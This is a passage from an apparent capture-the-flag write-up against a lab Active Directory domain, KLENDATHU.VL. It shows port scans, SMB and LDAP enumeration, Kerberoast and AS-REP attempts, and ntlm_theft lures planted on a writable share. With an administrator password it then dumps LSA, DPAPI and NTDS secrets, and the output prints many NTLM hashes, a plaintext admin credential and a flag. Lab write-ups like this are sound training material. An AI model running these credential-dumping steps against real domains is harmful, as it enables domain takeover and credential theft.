



As usual I will start by checking the first 1000 UDP services:

```bash
└─$ nmap -F -sU 10.13.38.35
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-16 09:49 +0100
Stats: 0:00:45 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 34.56% done; ETC: 09:51 (0:01:25 remaining)
Nmap scan report for 10.13.38.35
Host is up (0.024s latency).
Not shown: 75 closed udp ports (port-unreach)
PORT      STATE         SERVICE
53/udp    open          domain
88/udp    open          kerberos-sec
123/udp   open          ntp
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
500/udp   open|filtered isakmp
4500/udp  open|filtered nat-t-ike
5353/udp  open|filtered zeroconf
49152/udp open|filtered unknown
49153/udp open|filtered unknown
49154/udp open|filtered unknown
49156/udp open|filtered unknown
49181/udp open|filtered unknown
49182/udp open|filtered unknown
49185/udp open|filtered unknown
49186/udp open|filtered unknown
49188/udp open|filtered unknown
49190/udp open|filtered unknown
49191/udp open|filtered unknown
49192/udp open|filtered unknown
49193/udp open|filtered unknown
49194/udp open|filtered unknown
49200/udp open|filtered unknown
49201/udp open|filtered unknown
65024/udp open|filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 242.19 seconds

```

And all the TCP services as well:

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-03-16 08:55:57Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: KLENDATHU.VL, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: KLENDATHU.VL, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
|_ssl-date: 2026-03-16T08:56:58+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: KLENDATHU
|   NetBIOS_Domain_Name: KLENDATHU
|   NetBIOS_Computer_Name: DC1
|   DNS_Domain_Name: KLENDATHU.VL
|   DNS_Computer_Name: DC1.KLENDATHU.VL
|   DNS_Tree_Name: KLENDATHU.VL
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-16T08:56:50+00:00
| ssl-cert: Subject: commonName=DC1.KLENDATHU.VL
| Issuer: commonName=DC1.KLENDATHU.VL
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-15T03:33:12
| Not valid after:  2026-09-14T03:33:12
| MD5:     3f21 a185 c7c9 5999 7801 04a2 984e 279b
| SHA-1:   05aa 98ea e149 5446 f539 c596 6394 073b 7524 7fb2
| SHA-256: a8bd 6918 172c 8c4e 9966 ca4d 8cee 6fef aefd 2c37 60b8 ca61 7ca3 ef83 7059 2b68
| -----BEGIN CERTIFICATE-----
| MIIC5DCCAcygAwIBAgIQdO98+/ov3JdC0nmqhC8c6DANBgkqhkiG9w0BAQsFADAb
| MRkwFwYDVQQDExBEQzEuS0xFTkRBVEhVLlZMMB4XDTI2MDMxNTAzMzMxMloXDTI2
| MDkxNDAzMzMxMlowGzEZMBcGA1UEAxMQREMxLktMRU5EQVRIVS5WTDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBANccuL5u794hAuepiHiPoCJWVtWS1ZbO
| 6mLv3cScUTArOp7naOwqVvAFNvZVB8I9C9aacXJZCyu3B1TRqmYeIY3WqNyHK1XE
| pGKDPA1mUQuMW/sUDyj2DBBP4B1FtWfkjGEwQgHQkHi4Qm3ilmK+0/2RCORWm95H
| 7FuKhjqfh6GQT2IMoW1ZVwnxpZXrPp+or7u1GicGWRQ0ZP7ojJ5sxfNnYI+m5O+Z
| 83qQJwEe6t/iWdLMZQVOcynlg/XAqdMxyWdRBTE1xnTWKPa8ZgshHYwKmr3qImKI
| n42QBo7dJxH4qcEVTCS5YwR9IkWLO2MDMkZQo08ZEX9vzw6Eo5EgMqECAwEAAaMk
| MCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEB
| CwUAA4IBAQCGUBKPl4H00CbhTV/+h3afT6kaaeh54iT5yoUrRBugWsUpQ5Qh9JW8
| 4sF5Vps8Jv2/j6zmR6zgXRKCxNmXKGJznv/WT05Q366Ryjs10NWvWv1M43G8hiWx
| ImGQYHHG32CR2RWJvavrfdHcGNmkfF4ryo2Vzc/2ZkxqsLCWDwPQrVZyW6CXALQM
| v0aOVTe8E8Yvs0WybjVM8gehJGGs7lzP8n6ZnhbHkALfa4Y4eDgNeOs72XNfCS56
| a7i1vfQV7MgEBqfXmXtZCFAdegwUB8+J3wE3clwHqay7Qm/t9+rMIvisH6QjleHA
| Ut5HJBH029C8t8nwsHIjKYLiymG2Ae1Y
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49682/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49692/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53351/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53445/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2016 (96%), Microsoft Windows Server 2022 (95%), Microsoft Windows Server 2012 R2 (93%), Microsoft Windows Server 2019 (92%), Microsoft Windows 10 1703 or Windows 11 21H2 (91%), Microsoft Windows Server 2016 or Server 2019 (91%), Microsoft Windows Server 2012 (91%), Microsoft Windows 10 1703 (90%), Windows Server 2019 (90%), Microsoft Windows 10 1909 - 2004 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/16%OT=53%CT=%CU=37028%PV=Y%DS=2%DC=T%G=N%TM=69B7C5DB%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=A)
SEQ(SP=F9%GCD=1%ISR=110%TI=I%CI=I%II=I%SS=S%TS=A)
OPS(O1=M552NW8ST11%O2=M552NW8ST11%O3=M552NW8NNT11%O4=M552NW8ST11%O5=M552NW8ST11%O6=M552ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%T=80%W=FFFF%O=M552NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.225 days (since Mon Mar 16 04:32:48 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=249 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 29483/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 31243/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 62495/udp): CLEAN (Timeout)
|   Check 4 (port 14313/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-03-16T08:56:53
|_  start_date: N/A
|_clock-skew: mean: 0s, deviation: 0s, median: 0s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   23.60 ms 10.10.14.1
2   23.95 ms 10.13.38.35

```

# SMB

Now I will check presence of custom shares and I can see something interesting here so far:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Tools/ntlm_theft/important]
└─$ netexec smb DC1.KLENDATHU.VL -u zim -p 'football22' --shares
SMB         10.13.38.35     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.35     445    DC1              [+] KLENDATHU.VL\zim:football22 
SMB         10.13.38.35     445    DC1              [*] Enumerated shares
SMB         10.13.38.35     445    DC1              Share           Permissions     Remark
SMB         10.13.38.35     445    DC1              -----           -----------     ------
SMB         10.13.38.35     445    DC1              ADMIN$                          Remote Admin
SMB         10.13.38.35     445    DC1              C$                              Default share
SMB         10.13.38.35     445    DC1              HomeDirs        READ,WRITE      
SMB         10.13.38.35     445    DC1              IPC$            READ            Remote IPC
SMB         10.13.38.35     445    DC1              NETLOGON        READ            Logon server share 
SMB         10.13.38.35     445    DC1              SYSVOL          READ            Logon server share 
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Tools/ntlm_theft/important]
└─$ 


```

Now I can't reach the specific home folders of the users but the tool told me I have write permissions?



Now I will upload all the files possible generate in ntlm_theft and check what can I see so far, but apparently still no callback in Responder unfortunately:  


I will check the LDAP now and come back later on.

# LDAP

I will check all the users in the LDAP so I can check it so far and I see a possible service account that might be Kerberoastable?

```bash
└─$ netexec smb DC1.KLENDATHU.VL -u zim -p 'football22' --users                                     
SMB         10.13.38.35     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.35     445    DC1              [+] KLENDATHU.VL\zim:football22 
SMB         10.13.38.35     445    DC1              -Username-                    -Last PW Set-       -BadPW- -Description-                                    
SMB         10.13.38.35     445    DC1              Administrator                 2024-04-12 03:44:21 0       Built-in account for administering the computer/domain
SMB         10.13.38.35     445    DC1              Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.13.38.35     445    DC1              krbtgt                        2024-04-13 13:24:05 0       Key Distribution Center Service Account 
SMB         10.13.38.35     445    DC1              RICO                          2024-04-12 03:46:49 0        
SMB         10.13.38.35     445    DC1              JENKINS                       2024-04-12 03:46:53 1        
SMB         10.13.38.35     445    DC1              IBANEZ                        2025-06-16 08:20:40 0        
SMB         10.13.38.35     445    DC1              ZIM                           2024-04-13 13:33:45 0        
SMB         10.13.38.35     445    DC1              DELADRIER                     2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              ALPHARD                       2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              LEIVY                         2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              FRANKEL                       2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              HENDRICK                      2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              PATERSON                      2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              AZUMA                         2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              CHERENKOV                     2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              CLEA                          2024-04-12 03:46:53 1        
SMB         10.13.38.35     445    DC1              DUNN                          2024-04-12 03:46:53 1        
SMB         10.13.38.35     445    DC1              FLORES                        2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              SHUJUMI                       2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              BARCALOW                      2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              BRECKENRIDGE                  2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              BYRD                          2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              MCINTHIRE                     2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              RASCZAK                       2024-04-12 03:46:53 0        
SMB         10.13.38.35     445    DC1              svc_backup                    2024-04-12 03:46:54 0       Legacy account to sync data to users Home Directories
SMB         10.13.38.35     445    DC1              [*] Enumerated 25 local users: KLENDATHU

```

Ok nothing so far:

```bash
└─$ netexec ldap DC1.KLENDATHU.VL -u zim -p 'football22' --asreproast asrep.hash
LDAP        10.13.38.35     389    DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:KLENDATHU.VL) (signing:None) (channel binding:No TLS cert)
LDAP        10.13.38.35     389    DC1              [+] KLENDATHU.VL\zim:football22 
LDAP        10.13.38.35     389    DC1              No entries found!
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Klendathu]
└─$ netexec ldap DC1.KLENDATHU.VL -u zim -p 'football22' --kerberoast kerberost.hash
LDAP        10.13.38.35     389    DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:KLENDATHU.VL) (signing:None) (channel binding:No TLS cert)
LDAP        10.13.38.35     389    DC1              [+] KLENDATHU.VL\zim:football22 
LDAP        10.13.38.35     389    DC1              [*] Skipping disabled account: krbtgt
LDAP        10.13.38.35     389    DC1              [*] Total of records returned 0

```

Here I have been trying to inject some folders in that home share but I am not able to get a callback even by creating some folders so here I had to check back for tips for now I will move back to the MSSQL.

# The last stretch

Now with the domain credentials obtained from SRV1 I can login to DC and obtain another flag?



```bash
evil-winrm-py PS C:\Users\Administrator> cd Desktop
evil-winrm-py PS C:\Users\Administrator\Desktop> cat root.txt
KLEN{c9c76c4dceb2c0b2263d8fa38c813897}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```

And also dump the LSA and DPAPI secrets:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Klendathu]
└─$ netexec smb 10.13.38.35 -u 'Administrator' -p '@@MoreDeadBugs@@'  --lsa --dpapi                          
SMB         10.13.38.35     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.35     445    DC1              [+] KLENDATHU.VL\Administrator:@@MoreDeadBugs@@ (Pwn3d!)
SMB         10.13.38.35     445    DC1              [+] Dumping LSA secrets
SMB         10.13.38.35     445    DC1              KLENDATHU\DC1$:aes256-cts-hmac-sha1-96:9c8ca44029f5cef1da9dec8e479be66bde23307531857e4246f1fba90919745a
SMB         10.13.38.35     445    DC1              KLENDATHU\DC1$:aes128-cts-hmac-sha1-96:a8acbfe9a02a3c9630e841be743300d0
SMB         10.13.38.35     445    DC1              KLENDATHU\DC1$:des-cbc-md5:49df8ac2bcc40b04
SMB         10.13.38.35     445    DC1              KLENDATHU\DC1$:plain_password_hex:73adbe1ef99db96602ba3752c0f4db0130803bd7da04ab2d91bf44ff40a978f97637c524d5787c278d4f2f902d7d4bc7b3e29a02618527bc97ad76908f6c796b9f64f056b303d809ef0524214a9551516de84d7529fbd6425133284b0e0b5d7d9a50d71d7d3511352569f1488dccc4ed02e04a22baf29e3f4c94c73e228e5e2992b4e0b358ca938e492e3fe85da3f73b5d8d49bbc61d1c42a9a54f9d0ebc76c4a1bc2c217a7d1cdd148a750889574d008739d59cdd361b1e1c33734354f43d841a1e49da58ea54825a5793170db02ee0e24692585e15c639fee1035ee06c8f7fbf5d9af15fb160830c3eb0bd5484342a
SMB         10.13.38.35     445    DC1              KLENDATHU\DC1$:aad3b435b51404eeaad3b435b51404ee:285c28727dc927a6ed8ea84cfa22799f:::
SMB         10.13.38.35     445    DC1              dpapi_machinekey:0xe9cd8353c1ae32ee02e03e0970c370ceaea38de0
dpapi_userkey:0xc9ed57029e33120c4d012f7b9a30c5d23ed030c1
SMB         10.13.38.35     445    DC1              [+] Dumped 6 LSA secrets to /home/user/.nxc/logs/lsa/10.13.38.35_None_2026-03-16_130110.secrets and /home/user/.nxc/logs/lsa/10.13.38.35_None_2026-03-16_130110.cached
SMB         10.13.38.35     445    DC1              [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.13.38.35     445    DC1              [+] Got 8 decrypted masterkeys. Looting secrets...
SMB         10.13.38.35     445    DC1              [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{59AD49F9-7654-4CAC-8EF4-312078BFDC2B} - KLENDATHU\Administrator:@@MoreDeadBugs@@

```

And also the DcSync from the NTDS.dit database as well:

```bash
─$ netexec smb 10.13.38.35 -u 'Administrator' -p '@@MoreDeadBugs@@'  --ntds 
SMB         10.13.38.35     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.35     445    DC1              [+] KLENDATHU.VL\Administrator:@@MoreDeadBugs@@ (Pwn3d!)
SMB         10.13.38.35     445    DC1              [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.13.38.35     445    DC1              Administrator:500:aad3b435b51404eeaad3b435b51404ee:9b06f3f8bed2c693172a94b0e9e8d36b:::
SMB         10.13.38.35     445    DC1              Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.13.38.35     445    DC1              krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ead62c305c3272db76031710d190c7e5:::
SMB         10.13.38.35     445    DC1              RICO:1109:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::
SMB         10.13.38.35     445    DC1              JENKINS:1110:aad3b435b51404eeaad3b435b51404ee:b981ed1a880c7e162bac33f026905554:::
SMB         10.13.38.35     445    DC1              IBANEZ:1111:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::
SMB         10.13.38.35     445    DC1              ZIM:1112:aad3b435b51404eeaad3b435b51404ee:db8fc1cb41998432e98d60abc924e8e0:::
SMB         10.13.38.35     445    DC1              DELADRIER:1113:aad3b435b51404eeaad3b435b51404ee:31fa18a3ebd30f68f32850c7f8928859:::
SMB         10.13.38.35     445    DC1              ALPHARD:1114:aad3b435b51404eeaad3b435b51404ee:8c44c0edfdd0781367870d7b5bd98ba6:::
SMB         10.13.38.35     445    DC1              LEIVY:1115:aad3b435b51404eeaad3b435b51404ee:22caa725462b69784d2c8f88d40874ca:::
SMB         10.13.38.35     445    DC1              FRANKEL:1116:aad3b435b51404eeaad3b435b51404ee:efab79347a82d0d70588e89262add549:::
SMB         10.13.38.35     445    DC1              HENDRICK:1117:aad3b435b51404eeaad3b435b51404ee:505072b2db6e273dbdc3647e2046ad12:::
SMB         10.13.38.35     445    DC1              PATERSON:1118:aad3b435b51404eeaad3b435b51404ee:842469e7a59b89135305202279ab731c:::
SMB         10.13.38.35     445    DC1              AZUMA:1119:aad3b435b51404eeaad3b435b51404ee:861dd22c32d7649182c7d9c736693ada:::
SMB         10.13.38.35     445    DC1              CHERENKOV:1120:aad3b435b51404eeaad3b435b51404ee:2dd1cd35c5d0e17ef5ddf9adda3ddf40:::
SMB         10.13.38.35     445    DC1              CLEA:1121:aad3b435b51404eeaad3b435b51404ee:49c06250b86f7dc293476f8fd05367f7:::
SMB         10.13.38.35     445    DC1              DUNN:1122:aad3b435b51404eeaad3b435b51404ee:f737f042fcdad12c255efc98efcbc3a4:::
SMB         10.13.38.35     445    DC1              FLORES:1123:aad3b435b51404eeaad3b435b51404ee:bb4fd7388bfde506e0e8b13e58ec575c:::
SMB         10.13.38.35     445    DC1              SHUJUMI:1124:aad3b435b51404eeaad3b435b51404ee:ed0d68a2033a017fb9e8a3bbcca898b2:::
SMB         10.13.38.35     445    DC1              BARCALOW:1126:aad3b435b51404eeaad3b435b51404ee:225c87d9befff9dbade1d1ebe8929e31:::
SMB         10.13.38.35     445    DC1              BRECKENRIDGE:1127:aad3b435b51404eeaad3b435b51404ee:8027224a706c9246259f67b843ec27de:::
SMB         10.13.38.35     445    DC1              BYRD:1128:aad3b435b51404eeaad3b435b51404ee:72c74b39dbe3d5c17ec8051f39dbac6d:::
SMB         10.13.38.35     445    DC1              MCINTHIRE:1129:aad3b435b51404eeaad3b435b51404ee:0064de998bc1b5e376a86298bc613a9d:::
SMB         10.13.38.35     445    DC1              RASCZAK:1131:aad3b435b51404eeaad3b435b51404ee:e2f156a20fa3ac2b16768f8add53d72c:::
SMB         10.13.38.35     445    DC1              svc_backup:1135:aad3b435b51404eeaad3b435b51404ee:4a1ae789cbfaf636e1d9cf961995d267:::
SMB         10.13.38.35     445    DC1              DC1$:1000:aad3b435b51404eeaad3b435b51404ee:285c28727dc927a6ed8ea84cfa22799f:::
SMB         10.13.38.35     445    DC1              WS1$:1103:aad3b435b51404eeaad3b435b51404ee:baeeac0d852a621bbb2eb28066bd7a85:::
SMB         10.13.38.35     445    DC1              SRV1$:1104:aad3b435b51404eeaad3b435b51404ee:da383d53cb2128cc2e4648a406b0bb46:::
SMB         10.13.38.35     445    DC1              SRV2$:1105:aad3b435b51404eeaad3b435b51404ee:6eb647404190b73458540fef93e33d2e:::
SMB         10.13.38.35     445    DC1              [+] Dumped 29 NTDS hashes to /home/user/.nxc/logs/ntds/10.13.38.35_None_2026-03-16_130157.ntds of which 25 were added to the database
SMB         10.13.38.35     445    DC1              [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.13.38.35     445    DC1              [*] cat /home/user/.nxc/logs/ntds/10.13.38.35_None_2026-03-16_130157.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.13.38.35     445    DC1              [*] grep -iv disabled /home/user/.nxc/logs/ntds/10.13.38.35_None_2026-03-16_130157.ntds | cut -d ':' -f1
                                         
```

Now it it also possible to find traces about jenkins(which is instaleld on the SRV2?):

```bash
§evil-winrm-py PS C:\HomeDirs\JENKINS> cat jenkins.rdg
<?xml version="1.0" encoding="utf-8"?>
<RDCMan programVersion="2.93" schemaVersion="3">
  <file>
    <credentialsProfiles>
      <credentialsProfile inherit="None">
        <profileName scope="Local">KLENDATHU\administrator</profileName>
        <userName>administrator</userName>
        <password>AQAAANCMnd8BFdERjHoAwE/Cl+sBAAAABS0Gmx4U2k+bLUYfRpOl6wAAAAACAAAAAAADZgAAwAAAABAAAAAqvWFuXTLeCWvFNnkKjNDcAAAAAASAAACgAAAAEAAAAHHnv4NI9rTi06sCfSEy5hsoAAAAtCdIUjQfzQiJj363pO1RW/XSIlS/pMf/DBn3EHb8xEha6u1f/CMguhQAAACVsld41QgTZXMtLDfgrswQaShAxQ==</password>
        <domain>KLENDATHU</domain>
      </credentialsProfile>
    </credentialsProfiles>
    <properties>
      <expanded>True</expanded>
      <name>jenkins</name>
    </properties>
    <server>
      <properties>
        <name>dc1.klendathu.vl</name>
      </properties>
      <logonCredentials inherit="None">
        <profileName scope="File">KLENDATHU\administrator</profileName>
      </logonCredentials>
    </server>
  </file>
  <connected />
  <favorites />
  <recentlyUsed />
</RDCMan>
evil-winrm-py PS C:\HomeDirs\JENKINS> download AppData_Roaming_Backup.zip
[-] Usage: download <remote_path> <local_path>
evil-winrm-py PS C:\HomeDirs\JENKINS> download AppData_Roaming_Backup.zip .
Downloading C:\HomeDirs\JENKINS\AppData_Roaming_Backup.zip: 128kB [00:00, 4.67MB/s]                                                                                                                                                                                                                                            
[+] File downloaded successfully and saved as: /home/user/Downloads/Klendathu/AppData_Roaming_Backup.zip
evil-winrm-py PS C:\HomeDirs\JENKINS>


```

Now it is clear that via that DPAPI I was able already to dump the creds from the secrets and I have already the admin, which means most likely I totally skipped a path on  the SRV2 where most likely i would obtain a path from Jenkinks internalling on the server?